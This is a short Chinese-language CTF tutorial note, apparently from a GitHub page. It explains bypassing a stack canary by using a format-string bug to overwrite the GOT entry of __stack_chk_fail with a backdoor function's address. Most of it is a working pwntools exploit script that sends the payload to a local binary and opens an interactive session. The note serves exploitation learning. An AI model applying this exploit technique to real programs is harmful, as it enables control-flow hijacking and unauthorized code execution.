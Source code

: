 # stack_chk_fail-canary绕过

这个stack_chk_fail是一个函数他是当我们对canary造成破坏时程序就是就会去调用这个函数比如通过格式化字符串漏洞把对应的的函数位置修改为door的位置

这个就是当我们无法使用其他方法绕过canary时也可以使用的方法

```py
from pwn import *

elf = ELF("./pwn")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])

# gdb.attach(p, 'b *0x40124b\nc')
# pause()

payload = fmtstr_payload(6, {elf.got['__stack_chk_fail']: elf.sym['backdoor']})
payload = payload.ljust(0x108, b'a')
payload += b'b'

p.sendafter("please input:", payload)

p.interactive()

```


